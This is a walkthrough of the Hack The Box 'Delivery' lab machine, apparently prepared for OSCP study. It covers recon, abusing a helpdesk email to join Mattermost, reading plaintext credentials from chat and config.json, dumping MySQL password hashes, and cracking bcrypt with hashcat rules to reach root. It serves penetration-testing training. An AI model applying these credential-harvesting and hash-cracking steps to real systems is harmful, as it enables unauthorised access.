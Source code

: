 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔎 Recon
```bash
nmap -sV -p- -T4 -oA nmap/delivery-all 10.10.10.222
```
- Open ports: 22 (SSH), 80 (HTTP), 8065 (unknown service initially)
- `/etc/hosts` additions:
  ```
  10.10.10.222 delivery.htb helpdesk.delivery.htb
  ```

---

## 🏠 Web Enumeration
- **[Port 80](HTTP):** Static homepage
- **Subdomain found:** helpdesk.delivery.htb
- **Port 8065:** Mattermost interface at `http://delivery.htb:8065/`

### Helpdesk Ticket System
- Created new ticket on `helpdesk.delivery.htb`
  - Email: `test1@delivery.htb`
  - Ticket ID: `4076334`
- Used this info to access Mattermost:
  - Signup using `4076334@delivery.htb`
  - Got email verification link via helpdesk panel

---

## 🔑 Credentials & User Shell
- From Mattermost `town-square` channel:
  ```
  maildeliverer : Youve_G0t_Mail!
  ```
- SSH as maildeliverer:
  ```bash
  ssh maildeliverer@10.10.10.222
  # Password: Youve_G0t_Mail!
  ```
- Captured user flag from `~/user.txt`

---

## ⬆️ Privilege Escalation
### Step 1: Find Credentials
- File: `/opt/mattermost/config/config.json`
```json
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost",
```
- Credentials: `mmuser : Crack_The_MM_Admin_PW`

### Step 2: Dump Users Table
```bash
mysql -h 127.0.0.1 -u mmuser -p
# Password: Crack_The_MM_Admin_PW
MariaDB> use mattermost;
MariaDB> SELECT Username,Password FROM Users;
```
- Found bcrypt hash for `root`

### Step 3: Crack Bcrypt Hash
- Hint from Mattermost: `PleaseSubscribe!` related password
- Custom wordlist generation:
```bash
echo 'PleaseSubscribe!' > pass.lst
hashcat --stdout pass.lst -r /usr/share/hashcat/rules/best64.rule > custom.lst
```
- Crack hash:
```bash
hashcat -m 3200 -a 0 -o cracked.txt <HASH> custom.lst
```
- Cracked password: `PleaseSubscribe!21`

### Step 4: Root Access
```bash
su root
# Password: PleaseSubscribe!21
```
- Captured root flag from `~/root.txt`

---

## 📄 Summary
- Enumerated support ticket system to gain Mattermost access
- Extracted SSH credentials from chat
- Used MySQL access to retrieve root hash
- Cracked bcrypt hash using rules
- Escalated to root and captured all flags

---

Let me know if you'd like this exported as PDF or visualized as a flow diagram! 🔐

